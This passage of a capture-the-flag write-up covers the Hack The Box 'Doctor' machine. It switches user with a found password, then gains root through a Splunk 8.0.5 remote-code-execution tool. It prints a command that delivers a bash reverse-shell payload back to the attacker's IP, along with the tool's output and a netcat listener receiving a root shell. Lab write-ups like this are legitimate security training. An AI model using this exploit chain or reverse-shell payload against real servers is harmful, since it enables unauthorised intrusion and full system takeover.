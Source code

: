 ### Su - shaun

Turns out `Guitar123` is shaun's password:

```shell
web@doctor:/home/shaun$ su shaun
Password: Guitar123
shaun@doctor:~$
```

Grabbing `user.txt`:

```shell
shaun@doctor:~$ cat user.txt
8bb491643e3fe3******************
```

## Elevating Priv: shaun -> root

Initial enumeration did reveal a splunkd service hosted on Port 8089 running version 8.0.5

On searching for Splunk Privilege escalation exploit we stumble upon [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2) using which we can achieve privilege escalation or remote code execution

### Root shell

We'll clone the repo on our machine and run the Python script along with shaun's creds:

```shell
cfx:  ~/Documents/htb/doctor/SplunkWhisperer2/PySplunkWhisperer2  |master ✓|
→ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.27 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.27/4444 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpq0qs909h.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.27:8181/
10.10.10.209 - - [14/Nov/2020 21:48:42] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

Getting a callback on `nc` listener:

```shell
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:42392.
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# whoami
root
```